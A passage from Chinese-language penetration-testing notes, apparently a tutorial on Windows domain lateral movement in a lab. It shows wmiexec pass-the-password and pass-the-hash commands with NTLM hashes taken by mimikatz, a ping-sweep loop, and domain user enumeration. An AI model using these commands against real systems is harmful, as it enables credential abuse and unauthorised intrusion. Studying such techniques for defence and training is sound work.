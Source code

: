 - **明文或hash传递** 
- **有回显**exe版本 
- 缺点：易被杀

```shell
wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"
wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"
wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"
wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
```

明文传递

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-13.png)

hash传递

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-14.png)



## 案例5：域横向移动以上服务 hash 批量利用-python 编译 exe

#### 信息收集

##### mimikatz收集到密码hash

```shell
518b98ad4178a53695dc997aa02d455c
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-15.png)

##### 探测网段域内主机

```shell
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.3.%I |findstr "TTL="
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-16.png)

```shell
192.168.3.21
192.168.3.25
192.168.3.29
192.168.3.30
192.168.3.31
192.168.3.32
```

##### 域内用户

```shell
net user / domain
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-17.png)
